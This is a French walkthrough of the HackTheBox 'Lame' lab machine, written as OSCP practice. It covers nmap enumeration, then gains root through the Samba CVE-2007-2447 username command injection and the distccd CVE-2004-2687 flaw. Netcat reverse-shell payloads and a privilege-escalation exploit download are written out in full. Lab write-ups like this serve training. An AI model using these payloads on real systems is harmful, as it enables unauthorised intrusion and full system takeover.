Lame_French

Lame

 -------------------------------------
# Aperçu

La machine que je vais tenter d'exploiter est une machine Linux appelée "Lame". C'est l'une des boîtes de type OSCP répertoriées par @TJ_Null sur Twitter. Puisque je prépare mon OSCP je vais exploiter cette box sans metasploit. À la fin de l'article, j'aurai une section sur son exploitation avec metasploit

# Reconnaissance 

Pour cette machine, on nous donne l'adresse IP 10.10.10.3. Je vais commencer par exécuter quelques analyses nmap pour obtenir plus d'informations sur la cible et voir si je peux trouver un point d'entrée potentiel

### ****Balayage****

- **Analyse Nmap**
	- Command 
	`sudo nmap -sC -sV -T4 -O -v -oA lame 10.10.10.3`
		- `-sC`: exécuter les scripts nmap par défaut
		- `-T4`: Définir le modèle de synchronisation (plus élevé est plus rapide)
		- `-O`: Détecter le système d'exploitation
		- `sV`: détecter la version du service
		- `-v`: Verbeuse
		- `-oA`: Sortez tous les formats de fichiers au nom "lame"
	

L'exécution de l'analyse nmap initiale a montré 4 ports ouverts sur la machine cible

- **Port 21** : Exécution du protocole de transfert de fichiers (FTP). La version spécifique est vsFTPd 2.3.4. Notez également que la connexion anonyme est autorisée.
- **Port 22** : Exécution de SSH. La version spécifique est OpenSSH version 4.7p1.
- **Port 139 et 445** : Exécution de Samba smbd 3.X - 4.X. Je n'ai pas eu de version spécifique.

Avant de commencer à trouver plus d'informations sur ces ports, je vais lancer une autre analyse pour vérifier tous les ports afin de m'assurer qu'aucun autre service ne me manque.

- **Analyse approfondie**
	- Command
	`nmap -sC -sV -p- -T4 -O -oA lame_deep 10.10.10.3`
	
Voici les résultats du scan



Il y a un nouveau port qui n'est pas apparu dans l'analyse nmap initiale. Cela est dû au fait que le port 3632 n'est pas un port commun.

- **Port 3632**: Running distccd v1 4.2.4. A service that I am not familiar with.

Maintenant, pour être complet, je vais lancer une analyse UDP pour voir si d'autre port sont ouverts.

- **Analyse UDP**
	- Command
	`nmap -sU -p- -T4 -O -oA lame_UDP 10.10.10.3`
	
l'analyse n'a abouti à aucun autre port ouvert



En conclusion, nous avons quatre points d'entrée potentiels dans cette machine.

--------------------------------------------
--------------------------------------------
# Énumération

Maintenant, approfondissons ces services et voyons si nous pouvons trouver des vulnérabilités ou des erreurs de configuration.

## **Port 21 vsFTPd 2.3.4**

Maintenant, utilisons le meilleur outil de "piratage" qui existe... Google. Google nous montre qu'il s'agit en fait d'une version vulnérable et vulnérable à l'exécution de code à distance.

- ***Explication de la vulnérabilité***
Pour exploiter cette vulnérabilité, nous devons déclencher la fonction malveillante `vsf_sysutil_extra();` en envoyant une séquence d'octets spécifiques. Si l'exécution réussit, il devrait ouvrir une porte dérobée sur le port 6200 du système vulnérable.

- ***analyse de script nmap***
Pour vérifier qu'il est vulnérable à cette attaque, utilisons un script nmap



Après avoir exécuté le script, la sortie montre que ce n'est pas vulnérable à l'exploit.



## **Port 22 OpenSSH v4.7p1**

En jetant un coup d'œil rapide à Google, aucun résultat notable n'a été répertorié.

En regardant les scripts nmap, nous avons quelques options. Nous pourrions potentiellement bruteforcer SSH. Cependant, nous pourrions être bloqués ou cela pourrait prendre beaucoup de temps et ne lister aucun résultat. je garde ça en dernier recours.



## **Port 139 and 445 Samba smbd 3.X - 4.X**

C'est le seul service pour lequel nous n'avons pas obtenu de version spécifique. Cependant, ces ports sont généralement mal configurés et/ou vulnérables. Nous allons jeter un coup d'oeil.

Nous savons qu'il exécute un serveur SMB, j'utiliserai le client SMB pour obtenir la version spécifique.

- **Correctif client SMB**
	-  J'obtenais l'erreur ci-dessous en essayant de me connecter au serveur à l'aide de `smbclient`

- En effectuant une recherche rapide sur Google, j'ai pu trouver une solution. J'ai dû ajouter la ligne `client min protocol = NT1` au fichier `etc/samba/smb.conf` sous la section globale (voir capture d'écran ci-dessous)


Maintenant que `smbclient` fonction encore, on peut essayer la commande.
`smbclient -L 10.10.10.3`

- `-L`: lists what services are available on a server

Nous nous sommes connectés avec succès et avons maintenant une version spécifique : **Samba 3.0.20-Debian**



Maintenant, avant d'aller plus loin, voyons quelles autorisations nous avons sur les disques partagés.

`sudo ./smbmap.py -H 10.10.10.3 `

- `-H`: IP of the host



Comme vous pouvez le voir, nous avons un accès en READ et en WRITE au dossier tmp.

Maintenant que nous avons la version smb, recherchons-la sur Google. J'ai trouvé une tonne de vulnérabilités et nous pourrions facilement les exploiter avec metasploit. Cependant, je voudrais exploiter cela sans utiliser metasploit car je me prépare pour l'OSCP. Ne vous inquiétez pas, je vais également montrer l'exploitation du métasploit.

J'ai trouvé CVE-2007-2447 que je peux exploiter sans utiliser metasploit et obtenir un accès root. En regardant le script metasploit, nous pouvons voir que le charge utile est en fait très simple. Tout ce que nous avons à faire est de remplacer le *payload.encoded" avec notred charge utile.

``username = "/=`nohup " + payload.encoded + "`"``

La charge utile exploite le champ du nom d'utilisateur car le champ vous a permis d'entrer des métacaractères afin que nous puissions injecter notre charge utile. Avant d'exploiter cela, vérifions le dernier service.

*remarque : j'ai dû télécharger smbmap directement depuis github car le dernier paquet Debian ne fonctionnait pas*

## **Port 3632 distccd v1 4.2.4**

Faire une recherche rapide sur Google sur cette version nous montre qu'elle est vulnérable. Il y a même un nmap scipt pour cela, alors exécutons-le.

`nmap -p 3632 --script distcc-cve2004-2687 10.10.10.3`

L'examen des résultats de l'analyse nous montre qu'il est vulnérable.



Nous allons essayer d'exploiter les deux vulnérabilités que nous avons trouvées

----------------------------------------------------------------------------------------------------------------

# Exploitation 

## Samba

Ouvrons un écouteur sur votre machine hôte.

`nc -lvnp 4444`

Maintenant je vais me connecter au client smb.

`smbclient //10.10.10.3/tmp`



Laissons maintenant exécuter notre exploit.

``logon "/=`nohup nc -nv 10.10.14.14 4444 -e /bin/bash`"``

Parfait, nous avons notre shell inversé et nous sommes root, aucune élévation de privilèges n'est nécessaire.



## distccd v1 4.2.4

Essayons maintenant notre deuxième point d'entrée potentiel. Nous pouvons également utiliser le script nmap pour exploiter cette vulnérabilité, car nous savons qu'il est vulnérable à CVE 2004-2687.

Mettons en place notre écouteur

`nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.14 4444 -e /bin/bash'"`

Nous avons obtenu notre shell inversé, mais nous ne sommes pas root, nous devrons donc faire une escalade des privilèges.



Laissez découvrir la version Linux.



J'ai essayé quelques escalades de privilèges depuis exploitdb sans succès. Après avoir fouillé un peu dans Google, j'ai pu trouver une escalade de privilèges qui pourrait fonctionner.

La première étape consiste à configurer un serveur

`python -m SimpleHTTPServer 8090`

Maintenant, sur la machine cible, je vais télécharger l'exploit depuis exploitdb

`wget http://10.10.14.14:8090/8572.c`

Comme il s'agit d'un fichier C, nous devons le compiler en utilisant gcc.

`gcc 8572.c -o 8572`

Regardons l'utilisation avant d'exécuter le fichier.



Il y a plusieurs choses que nous devrons faire pour que cela fonctionne.

- trouver le PID id le netlink udevd
- Mettez un paylod dans le forder /tmp et il fonctionnera en tant que root.

Trouvons le PID de l'udevd à l'aide de la commande ci-dessous :

`ps -aux | grep devd`

Ici, nous trouvons notre PID.



Créons maintenant un script rapide qui nous donnera un shell inversé lorsqu'il sera exécuté dans le dossier /tmp.



Maintenant, ouvrons un écouteur sur notre machine.

Après avoir exécuté cet eploit plusieurs fois avec différentes charges utiles, je n'ai pas pu obtenir le shell inverse. Pour une raison quelconque, l'exploit n'exécutait pas du tout mon fichier d'exécution. J'ai cherché des solutions après avoir essayé pendant un certain temps et je n'ai toujours pas pu obtenir l'augmentation des privilèges. Peut-être que la machine agit. réessayera à l'avenir.

*Mise à jour : après avoir réinitialisé la machine, j'ai pu obtenir root

-----------------------------------------------
## Metasploit Exploitation

Après avoir déclaré metasploit, j'ai recherché des vulnérabilités de samba. Quelques résultats ont été répertoriés comme vous pouvez le voir ci-dessous



J'ai décidé d'utiliser d'abord l'exploit répertorié ci-dessous car il est répertorié comme excellent
`exploit/multi/samba/usermap_script`

	

- **Metasploit**
	1. `use 4`
	2. `show OPTIONS`
	
	
	
	3. `set RHOST 10.10.10.3`
	4. `set LHOST tun0` (OVPN Interface)
	5. `exploit`

Nous avons maintenant le shell inversé utilisant la charge utile `cmd/unix/reverse_netcat`.



--------------------------------------------------------

## Obtenir le drapeau

- User Flag
	- `cd /`
	- `cd home`
	- `cd makis`
	- `cat user.txt`



- Root Flag
	- `cd /`
	- `cd root`
	- `cat root.txt`



